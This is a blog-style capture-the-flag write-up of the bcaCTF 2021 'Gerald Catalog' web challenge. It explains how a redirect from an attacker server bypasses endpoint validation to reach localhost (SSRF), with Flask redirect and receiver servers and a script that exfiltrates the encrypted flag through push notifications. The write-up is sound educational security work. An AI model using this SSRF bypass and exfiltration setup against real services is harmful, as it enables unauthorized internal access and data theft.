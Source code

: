 ```yaml
---
layout: post
title: bcaCTF 2021 - Gerald Catalog
---
```

b1c and Rogue Waves merged for a big 1st place (W over both redpwn teams!!) in bcaCTF 2021.

Though the pwn curve was pretty sad, I also solved a web challenge, Gerald Catalog.

## Gerald Catalog
Least solved challenge in the whole CTF!

The website we are given lets us view and create "Geralds". Gerald is just an image (of a stegosaurus). Each Gerald has a title and a caption. There is a Gerald with the flag, and only the admin can see it. Our goal is to get the contents of the flag Gerald.

We are also allowed to opt into push notifications. When a Gerald is viewed, we can opt into getting push notifications for view events. Viewing a corresponding Gerald will cause a push notification to be sent to one's browser, and a popup will be shown.

<!-- more -->

### source code
#### server.ts:

| Route                           | Purpose                                                                  |
|---------------------------------|--------------------------------------------------------------------------|
| GET /                           | index page                                                               |
| GET /login                      | login page                                                               |
| POST /login                     | login api                                                                |
| GET /register                   | register page                                                            |
| POST /register                  | register api                                                             |
| GET /logout                     | logout of account                                                        |
| GET /geralds                    | view one's geralds + the flag gerald                                     |
| GET /gerald/:id                 | view a specific Gerald, this also triggers push notifications to be sent |
| GET /gerald.png                 | render a Gerald image with specific caption                              |
| GET /add                        | create a Gerald page                                                     |
| POST /add                       | create a Gerald api                                                      |
| PUT /gerald/:id/subscription    | subscribe to push notifications for a specific Gerald                    |
| DELETE /gerald/:id/subscription | unsubscribe to push notifications for a specific Gerald                  |

#### notify.ts
`validateSubscription()`:
Ensures that a subscription's fields:
- have string `endpoint`
- have string `keys.auth`
- have string `keys.p256dn`
- `endpoint`:
    - no port specification (thus on either port 80 or 443)
    - hostname is not `localhost` or a Docker localhost network
    - hostname does not have `bcactf.com` in it
    - hostname does not have `192.168.` in it
    - hostname does not start with `127.`
    - protocol must be `http` or `https`

`sendNotifications()`:
Sends an encrypted `web-push` push notification that contains the id, name, and caption using `fetch` to our endpoint.

### ssrf
When we opt in for push notifications with a PUT to /gerald/:id/subscription, we can specify the endpoint for where the notification should go to. The validation in `validateSubscription` makes it seem like it was meant to prevent SSRF, so obviously we should try to find another way of achieving SSRF.

In `sendNotifications()`, `fetch` will follow all redirects that our endpoint returns. So, we can make our endpoint redirect to `localhost/path`, and `fetch` will go to that endpoint instead, giving us SSRF.

### getting the encrypted flag
Using our SSRF from before, we can get push notification containing the encrypted contents of the flag.

We will need two servers, one to redirect `fetch` for SSRF and one to receive the encrypted flag. Technically it might be possible to have one server with one application running on port 80 and another on port 443, but I just used my two existing EC2 instances.

For reference, the id of my flag Gerald was `a5721434-b800-4c97-b3cd-8f05ba6911ab`. The id of the dummy Gerald was `510afe9e-ae77-45e9-922a-fccf9914516b`.

On server A, this is the Flask code:
```python
from flask import Flask, redirect

app = Flask(__name__)

@app.errorhandler(404)
def hello(a):
        return redirect("http://127.0.0.1:1337/gerald/a5721434-b800-4c97-b3cd-8f05ba6911ab", code=302)


app.run(host='0.0.0.0', port=80)
```

The 404 error handler just makes it so that every route requested from server A will be redirected to the `localhost` url.


On server B, this is the Flask code:
```python
from flask import Flask, redirect, request
import base64

app = Flask(__name__)

@app.errorhandler(404)
def hello(a):
        print(request.headers)
        print("rcvd: ", base64.b64encode(request.data))
        return 'lol'


app.run(host='0.0.0.0', port=80)
```

This code returns the base64 encoding of any data received.

Remember that the flag will be encrypted when we receive it. Generally, browsers will do the decryption for us but I couldn't figure out how to plug encrypted output into the browser.

Instead to decrypt it, I just generated a keypair with [this site](https://tools.reactpwa.com/vapid).

The public key from that site is `p256dh`, and I just took the `auth` value from a sample request from the Network tab in developer tools. The private key from the site will be used to decrypt the encrypted flag later on.

To set up push notifications:
```python
import requests

s = requests.Session()

a = s.post("https://web.bcactf.com:49163/login", data={"username":[REDACTED], "password":[REDACTED]}, verify=False)

b = s.get("https://web.bcactf.com:49163/geralds", verify=False)

p = s.put("https://web.bcactf.com:49163/gerald/510afe9e-ae77-45e9-922a-fccf9914516b/subscription",
        headers={
            "Host": "web.bcactf.com:49163"
            },
        json={
            "endpoint":[SERVER A],
            "expirationTime":None,
            "keys": {
                "p256dh":[PUBLIC KEY],
                "auth":[AUTH FROM SAMPLE REQUEST]
            }
        }, verify=False)


p = s.put("https://web.bcactf.com:49163/gerald/a5721434-b800-4c97-b3cd-8f05ba6911ab/subscription",
        headers={
            "Host": "web.bcactf.com:49163"
            },
        json={
            "endpoint":[SERVER B],
            "expirationTime":None,
            "keys": {
                "p256dh":[PUBLIC KEY],
                "auth":[AUTH FROM SAMPLE REQUEST]
            }
        }, verify=False)

print(p.ok)
print(p.text)
```

This sets up two push notification events. One will trigger when we view `510afe9e-ae77-45e9-922a-fccf9914516b`, and will trigger the SSRF by a redirect from server A.

This causes the server to "view" `a5721434-b800-4c97-b3cd-8f05ba6911ab` when `fetch` follows the redirect. Viewing `a5721434-b800-4c97-b3cd-8f05ba6911ab` will cause another push notification containing the encrypted flag to be sent to our server B, which prints out the base64 encoding of it.

### decrypting the flag
To decrypt the flag, I used [https://github.com/web-push-libs/ecec](https://github.com/web-push-libs/ecec). There is a convenient decryption utility that is included in the build instructions.

To use it, we'll need our auth secret (the `auth` field of our request), the private key that we generated, and the URL-safe base64 version of the data received by our server.

Make sure that both the auth secret, the private key, and the message are in URL-safe base64 encoding, not just base64, or else the decryption will fail. I used [this tool](https://www.base64url.com/) to convert.

Flag: `bcactf{thanks_f0r_contributing_t0_th3_g3rard_lore_ssrf478fhgh}`
